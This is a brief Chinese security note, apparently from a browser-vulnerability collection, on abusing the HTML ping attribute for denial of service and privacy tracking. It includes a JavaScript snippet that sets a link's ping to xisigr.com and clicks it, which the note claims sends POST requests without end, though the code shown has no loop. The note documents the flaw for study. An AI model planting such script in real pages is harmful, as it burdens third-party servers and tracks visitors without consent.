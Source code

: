 -----

* 特性：ping属性
* 环境：发送异步请求，完成一次HTTP重定向，循环发送POST请求，造成DOS攻击；
        PING-FROM、USER-AGENT、REFERER泄漏用户的隐私。
* 漏洞类型：DOS攻击、隐私追踪

-----   

举例：
-----
···JavaScript
      <script> 
      var link = document.createElement('a'); 
      link.href=""; 
      link.ping = 'http://www.xisigr.com/'; 
      document.head.appendChild(link); link.click(); 
      </script>       //JavaScript
      运行上面的代码，就会不停的向xisigr.com发送POST请求。
